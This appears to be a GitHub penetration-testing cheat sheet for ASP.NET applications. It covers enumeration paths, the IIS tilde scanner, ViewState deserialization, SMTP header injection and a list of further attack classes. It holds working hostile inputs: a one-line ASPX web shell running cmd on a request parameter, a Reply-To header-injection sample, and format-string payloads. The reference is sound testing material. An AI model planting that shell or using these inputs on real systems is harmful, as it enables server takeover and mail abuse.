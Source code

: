 ## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=<resourceId>&t=<timestamp>
Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name = name… = name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames (short names).
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
`java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
>PS. ignore “global”, “master”, “default”, “aspnet” from results
### Viewstate
The ViewState is a mechanism built in to the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step you can start by testing if the ViewState is not encrypted simply by finding any viewstate decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.
`From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
...
В итоге будет внедрен новый заголовок:
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com
Reply-To: hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>`
### Additional .NET-Specific Tricks
  1.Canonicalization attack
    Using environment variables to represent path - e.g. %windir%notepad.exe
    Trailing “.” - e.g. C:wondowsnotepad.exe.
    Create file - \\URL\<name>		\\URL\pipe\<name>
  2.LINQ injection
  3.Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
#### Not-.NET-Specific
  1. XXE in DocX files
  2.Padding Oracle (cookies / viewstate …)
  3.Injection (sql with sqlNinja, js, html…)
  4.Format strings attack
    %n%n%n%n%n%n%n%n
    %s%s%s%s%s%s%s%s%s
    %d%d%d%d%d%d%d%d
  5.Serialization
  6.LFI
    <%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>
  7.Trace method
  8.Session fixation 
  9.Replay attacks
  10.CORS
 
## References
https://www.youtube.com/watch?v=HrJW6Y9kHC4 
https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
Positive technologies
